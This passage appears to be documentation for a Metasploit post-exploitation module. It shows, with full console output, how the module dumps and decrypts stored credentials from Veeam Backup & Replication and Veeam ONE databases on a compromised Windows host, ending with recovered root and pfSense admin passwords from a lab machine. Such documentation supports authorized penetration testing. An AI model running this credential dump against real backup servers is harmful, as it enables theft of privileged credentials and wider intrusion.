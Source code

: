 This should place a CSV export file suitable for use within the module at `veeam_dump.csv`. If using
SQL native auth, replace the `-E` parameter with

`-U "<MSSQL_USER>" -P "<MSSQL_PASS>"`

### Examples

Windows Server 2019 host with Veeam Backup & Recovery and Veeam ONE installed w/SQL SSPI using the
`dump` action:

```
msf6 exploit(multi/handler) > use windows/gather/credentials/veeam_credential_dump
msf6 post(windows/gather/credentials/veeam_credential_dump) > set session 1
session => 1
msf6 post(windows/gather/credentials/veeam_credential_dump) > dump

[*] Hostname VEEAM01 IPv4 192.168.101.39
[*] Veeam Backup & Replication Install Path: C:\Program Files\Veeam\Backup and Replication\Backup
[+] Compressed size: 1336
[*] Veeam Backup & Replication Build 11.0.1.1261
[*] Veeam ONE Monitor Install Path: C:\Program Files\Veeam\Veeam ONE\Veeam ONE Monitor Server
[+] Compressed size: 1268
[*] Veeam ONE Monitor Build 11.0.0.1379
[+] Compressed size: 1336
[*] Get Veeam SQL Parameters ...
[+] SQL Database Connection Configuration:
[+]     Instance Name: VEEAM01\VEEAMSQL2016
[+]     Database Name: VeeamBackup
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[+] SQL Database Connection Configuration:
[+]     Instance Name: VEEAM01\VEEAMSQL2016
[+]     Database Name: VeeamONE
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Performing export of Veeam Backup & Replication SQL database to CSV file
[*] Export Veeam Backup & Replication DB ...
[+] 11 rows exported, 11 unique IDs
[+] Encrypted Veeam Backup & Replication Database Dump: /root/.msf4/loot/20221209091141_default_192.168.101.39_veeam_vbr_enc_871500.txt
[*] Performing export of Veeam ONE Monitor SQL database to CSV file
[*] Export Veeam ONE Monitor DB ...
[+] 1 rows exported, 1 unique IDs
[+] Encrypted Veeam ONE Monitor Database Dump: /root/.msf4/loot/20221209091141_default_192.168.101.39_veeam_vom_enc_278493.txt
[*] Performing decryption of Veeam Backup & Replication SQL database
[+] 11 VBR rows loaded, 11 unique IDs
[*] Process Veeam Backup & Replication DB ...
[+] Compressed size: 1408
[+] Compressed size: 4864
[+] 11 VBR rows processed
[*] 7 rows recovered: 0 plaintext, 7 decrypted (4 blank)
[*] 7 rows written (4 blank rows withheld)
[+] 7 unique VBR ID records recovered
[+] Recovered Credential: Linux root
[+]     L: root
[+]     P: SK!nP0pp3r
[+] Recovered Credential: pfSense admin
[+]     L: admin
[+]     P: Quit2Day!
[+] Recovered Credential: root
[+]     L: root
```